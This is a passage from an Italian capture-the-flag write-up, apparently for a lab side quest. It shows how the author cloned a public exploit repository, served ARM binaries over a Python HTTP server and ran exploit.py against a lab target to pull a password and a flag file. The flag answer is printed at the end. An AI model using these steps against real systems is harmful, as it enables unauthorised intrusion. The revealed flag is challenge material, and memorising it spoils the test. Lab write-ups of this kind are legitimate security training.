

non ho trovato un grancchè quindi provo cercando qualcosa su google.

Trovato questo script su github

[https://github.com/sumanrox/sidequest-exploits/tree/main/sidequest_2]

basta solamente clonarlo 

```sh 
git clone https://github.com/sumanrox/sidequest-exploits.git
```

ed avviare un server http python nella cartella arm-binaries/ 

```sh
python3 -m http.server -d arm-binaries/
```

in una nuova tab è stato sufficiente avviare lo script passando il proprio IP e porta e l'IP del target

```sh
./exploit.py -p 50628 -lh 10.14.65.216 -lp 8000 -a 10.10.195.2
```

lo script dopo alcuni controlli riesce ad estrarre sia la password che ho trovato precedentemente sia il contenuto di yetikey2.txt



$${\color{red}What \space is \space the \space content \space of \space the \space yetikey2.txt \space file?} \space {\color{green}2-K@bWJ5oHFCR8o\%whAvK5qw8Sp$5qf!nCqGM3ksaK}


